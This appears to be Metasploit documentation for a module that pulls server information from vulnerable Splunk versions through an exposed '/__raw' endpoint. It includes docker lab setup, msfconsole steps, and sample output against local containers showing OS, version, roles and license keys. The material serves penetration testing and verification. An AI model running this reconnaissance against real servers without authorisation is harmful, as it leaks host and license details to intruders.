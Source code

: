 ## Vulnerable Application

Splunk versions 6.2.3 through 7.0.1 allows information disclosure by appending
`/__raw/services/server/info/server-info?output_mode=json` to a query.

Versisons 6.6.0 through 7.0.1 require authentication.

### Docker Install

#### Splunk 6.5.5

A vulnerable version of Splunk can be installed locally with docker:

`docker run -p 8000:8000 -e "SPLUNK_PASSWORD=splunk" -e "SPLUNK_START_ARGS=--accept-license" -it --name so1 splunk/splunk:6.5.5`

#### Splunk 7.1.0

At startup it'll ask for a password for the system. You may need to login via the website and accept a license and restart
the service (via website) for the instance to be exploitable. Splunk can be started via docker with:

`docker run -p 8000:8000 -e "SPLUNK_START_ARGS=--accept-license" -it --name so2 splunk/splunk:7.1.0`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/splunk_raw_server_info`
1. Do: `SET RHOSTS [IP]`
1. You should receive output about the Splunk version and roles, license status, including license key info, and OS information.

## Options

## Scenarios

### Splunk 6.5.5

```
msf6 > use auxiliary/gather/splunk_raw_server_info 
msf6 auxiliary(gather/splunk_raw_server_info) > exploit
[*] Running module against 127.0.0.1

[+] Output saved to ~/.msf4/loot/20231220130955_default_127.0.0.1_splunk.system.st_442957.bin
[+] Hostname: 3c7b9beb6c3c
[+] CPU Architecture: x86_64
[+] Operating System: Linux
[+] OS Build: #1 SMP PREEMPT_DYNAMIC Debian 6.5.3-1kali2 (2023-10-03)
[+] OS Version: 6.5.0-kali2-amd64
[+] Splunk Version: 6.5.5
[+] Trial Version?: true
[+] Splunk Forwarder?: false
[+] Splunk Product Type: enterprise
[+] License State: EXPIRED
[+] License Key(s): []
[+] Splunk Server Roles: ["indexer", "license_master"]
[+] Splunk Server Startup Time: 2023-12-19 20:56:13
```

### Splunk 7.1.0

```
[msf](Jobs:0 Agents:0) > use auxiliary/gather/splunk_raw_server_info 
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > set username admin
username => admin
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > set password splunksplunk
password => splunksplunk
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > set verbose true
verbose => true
[msf](Jobs:0 Agents:0) auxiliary(gather/splunk_raw_server_info) > run
[*] Running module against 127.0.0.1

[+] Output saved to /root/.msf4/loot/20231220204049_default_127.0.0.1_splunk.system.st_943292.json
[+] Hostname: 523a845e8652
[+] CPU Architecture: x86_64
[+] Operating System: Linux
[+] OS Build: #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09)
[+] OS Version: 6.5.0-kali3-amd64
[+] Splunk Version: 7.1.0
[+] Trial Version?: false
[+] Splunk Forwarder?: false
[+] Splunk Product Type: splunk
[+] License State: OK
[+] License Key(s): ["FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"]
[+] Splunk Server Roles: ["indexer", "license_master"]
[+] Splunk Server Startup Time: 2023-12-21 01:40:02
[*] Auxiliary module execution completed
```
